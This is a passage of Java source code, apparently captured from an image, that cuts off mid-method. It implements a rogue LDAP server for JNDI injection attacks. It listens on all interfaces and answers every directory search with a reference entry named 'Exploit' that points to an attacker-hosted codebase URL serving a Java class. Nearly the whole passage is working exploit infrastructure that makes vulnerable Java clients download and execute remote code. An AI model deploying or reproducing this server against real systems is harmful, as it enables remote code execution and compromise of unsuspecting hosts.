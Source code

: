 ```plain
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;


        /**
         *
         */
        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }


        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }

        }


        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
```